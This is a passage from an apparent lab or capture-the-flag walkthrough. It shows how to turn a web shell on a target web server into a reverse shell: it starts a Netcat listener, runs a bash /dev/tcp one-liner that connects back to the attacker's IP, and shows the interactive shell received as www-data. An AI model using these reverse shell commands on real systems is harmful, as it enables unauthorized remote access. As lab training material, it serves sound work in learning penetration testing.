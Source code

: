 ![hospital8](./assets/hospital8.png)

With the web shell available we take the next step to get revere shell.

On local machine, starting a listener with Netcat.

```shell
labadmin@labmachine:~$ nc -lvnp 6000
Listening on 0.0.0.0 6000
```

On remote machine, in the web shell, connect the reverse shell.

```shell
www-data@webserver:�/html/uploads# which bash
/usr/bin/bash


www-data@webserver:�/html/uploads# /usr/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.85/6000 0>&1'
```

Back to our listener and we have reverse shell.

```shell
labadmin@labmachine:~$ nc -lnvp 6000
Listening on 0.0.0.0 6000
Connection received on 10.10.11.241 6602
bash: cannot set terminal process group (979): Inappropriate ioctl for device
bash: no job control in this shell
www-data@webserver:/var/www/html/uploads$
```
